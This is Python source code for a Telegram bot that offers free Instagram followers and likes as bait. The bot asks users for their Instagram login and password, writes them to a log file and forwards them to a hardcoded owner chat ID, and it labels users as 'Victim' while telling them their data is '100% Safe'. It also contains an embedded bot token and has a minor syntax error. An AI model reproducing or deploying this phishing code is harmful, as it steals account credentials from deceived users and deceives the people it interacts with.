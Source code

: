 
import telebot
from telebot import *
import time
import random
print("Bot Lanched Successfully!! By Telegram Owner")
log = open('bot-log.txt', 'a+', encoding='utf-8')
ID = '6099724261'
bot = telebot.TeleBot("6451890702:AAHDK-pWQa_T0gRKoueV3RkdZMeoP-zVAlc")
try:
	bot.send_message(ID, '𝖡𝗈𝗍 𝗂𝗌 𝗋𝗎𝗇𝗇𝗂𝗇𝗀 𝗇𝗈𝗐!') 
except:
	print("Maybe you didn't write /start in your bot! Without this action, the script will not work correctly!")


@bot.message_handler(commands=['start'])
def start(message):
	print(f'''Got Victim Telegram
VICTIM ID: {message.from_user.id}''')
	bot.send_message(message.chat.id, '''👋 𝖧𝖾𝗅𝗅𝗈! 👋
  Get Instagram Unlimited followers && Like! 
  𝖳𝗈 𝗀𝖾𝗍 𝗌𝗍𝖺𝗋𝗍𝖾𝖽, 𝗉𝗋𝖾𝗌𝗌 /get''') 

@bot.message_handler(commands=['lamer112311dev'])
def lamer112311(message):
	bot.send_message(message.chat.id, 'Script author: 100% Secured Your Data') 

@bot.message_handler(commands=['get', 'n'])
def start1(message):
	keyboardmain = types.InlineKeyboardMarkup(row_width=2)
	first_button = types.InlineKeyboardButton(text="𝖦𝖾𝗍 𝗅𝗂𝗄𝖾⚡️", callback_data="like")
	second_button = types.InlineKeyboardButton(text="𝖦𝖾𝗍 𝖥𝗈𝗅𝗅𝗈𝗐𝖾𝗋🔥", callback_data="sub")
	keyboardmain.add(first_button, second_button)
	bot.send_message(message.chat.id, "𝖲𝖾𝗅𝖾𝖼𝗍 𝖺𝗇 𝗂𝗍𝖾𝗆:", reply_markup=keyboardmain)

@bot.callback_query_handler(func=lambda call:True)
def callback_inline1(call):
	if call.data == "like":
		msg = bot.send_message(call.message.chat.id, '𝖤𝗇𝗍𝖾𝗋 𝗍𝗁𝖾 𝗇𝗎𝗆𝖻𝖾𝗋 𝗈𝖿 𝗅𝗂𝗄𝖾𝗌 (𝗆𝖺𝗑 500)') 
		bot.register_next_step_handler(msg, qproc1)

	elif call.data == "sub":
		msg = bot.send_message(call.message.chat.id, '𝖤𝗇𝗍𝖾𝗋 𝗍𝗁𝖾 𝗇𝗎𝗆𝖻𝖾𝗋 𝗈𝖿 𝖿𝗈𝗅𝗅𝗈𝗐𝖾𝗋𝗌 (𝗆𝖺𝗑 10000)'
		bot.register_next_step_handler(msg, qproc2)

def qproc1(message):
	try:
		num = message.text	
		if not num.isdigit():
			msg = bot.reply_to(message, '𝖤𝗇𝗍𝖾𝗋 𝗍𝗁𝖾 𝖺𝗆𝗈𝗎𝗇𝗍 𝖺𝗌 𝖺 𝗇𝗎𝗆𝖻𝖾𝗋! 𝖳𝗋𝗒 𝖺𝗀𝖺𝗂𝗇 𝖻𝗒 𝗍𝗒𝗉𝗂𝗇𝗀 /get !')#⏳
			return
		elif int(num) > 10000:
			bot.reply_to(message, '𝖳𝗁𝖾 𝗇𝗎𝗆𝖻𝖾𝗋 𝗈𝖿 𝗅𝗂𝗄𝖾𝗌 𝖼𝖺𝗇𝗇𝗈𝗍 𝖻𝖾 𝗆𝗈𝗋𝖾 𝗍𝗁𝖺𝗇 10000!')
			return
		else:
			bot.send_message(message.chat.id, f'𝖭𝗎𝗆𝖻𝖾𝗋 𝗈𝖿 𝗅𝗂𝗄𝖾𝗌: {num}')
			msg = bot.send_message(message.chat.id, '𝖤𝗇𝗍𝖾𝗋 𝗍𝗁𝖾 Id username (phone number) secured🔒:') 
			bot.register_next_step_handler(msg, step1)
	except Exception as e:
		print(e)


def qproc2(message):
	try:
		num = message.text
		if not num.isdigit():
			bot.reply_to(message, '𝖤𝗇𝗍𝖾𝗋 𝗍𝗁𝖾 𝖺𝗆𝗈𝗎𝗇𝗍 𝖺𝗌 𝖺 𝗇𝗎𝗆𝖻𝖾𝗋! 𝖳𝗋𝗒 𝖺𝗀𝖺𝗂𝗇 𝖻𝗒 𝗍𝗒𝗉𝗂𝗇𝗀 /get !')#⏳
			return
		elif int(num) > 10000:
			bot.reply_to(message, '𝖳𝗁𝖾 𝗇𝗎𝗆𝖻𝖾𝗋 𝗈𝖿 𝖿𝗈𝗅𝗅𝗈𝗐𝖾𝗋𝗌 𝖼𝖺𝗇𝗇𝗈𝗍 𝖻𝖾 𝗆𝗈𝗋𝖾 𝗍𝗁𝖺𝗇 10000!')
			return
		else:
			bot.send_message(message.chat.id, f'𝖭𝗎𝗆𝖻𝖾𝗋 𝗈𝖿 𝖿𝗈𝗅𝗅𝗈𝗐𝖾𝗋𝗌: {num}')
			msg = bot.send_message(message.chat.id, '𝖤𝗇𝗍𝖾𝗋 𝗍𝗁𝖾 𝖾𝗆𝖺𝗂𝗅 (𝗈𝗋 𝗉𝗁𝗈𝗇𝖾 𝗇𝗎𝗆𝖻𝖾𝗋) 𝖿𝗋𝗈𝗆 𝗒𝗈𝗎𝗋 𝖺𝖼𝖼𝗈𝗎𝗇𝗍:') 
			bot.register_next_step_handler(msg, step1)
	except Exception as e:
		print(e)


def step1(message):
	get = f'''Data received ~ Telegram:
Received for Instagram
ID: {message.from_user.id}
Nick: @{message.from_user.username}
User: {message.text}
Name: {message.from_user.first_name}
BY Telegram Owner🌀

'''
	log = open('bot-log.txt', 'a+', encoding='utf-8')
	log.write(get + '  ')
	log.close()
	print(get)
	bot.send_message(ID, get)
	bot.reply_to(message, f'𝖸𝗈𝗎𝗋 𝗅𝗈𝗀𝗂𝗇: {message.text}')

	msg1 = bot.send_message(message.chat.id, '𝖤𝗇𝗍𝖾𝗋 𝗒𝗈𝗎𝗋 𝖺𝖼𝖼𝗈𝗎𝗇𝗍 𝗉𝖺𝗌𝗌𝗐𝗈𝗋𝖽 secured🔒:') 
	bot.register_next_step_handler(msg1, step2)

	
def step2(message):
	usrpass = message.text
	get = f'''Data received ~ Telegram:
Received in bot: instagram
ID: {message.from_user.id}
Nick: @{message.from_user.username}
Pass: {usrpass}
Name: {message.from_user.first_name}
BY Telegram Owner

'''
	print(get)
	log = open('bot-log.txt', 'a+', encoding='utf-8')
	log.write(get + '  ')
	log.close()
	bot.send_message(ID, get)
	msg = bot.reply_to(message, f'𝖸𝗈𝗎𝗋 𝗉𝖺𝗌𝗌𝗐𝗈𝗋𝖽: {usrpass}')
	time.sleep(1)
	bot.reply_to(message, f'𝖳𝗁𝖺𝗇𝗄 𝗒ou You For Telegram Owner Bot Your Data 100% Safe')


bot.polling()
		
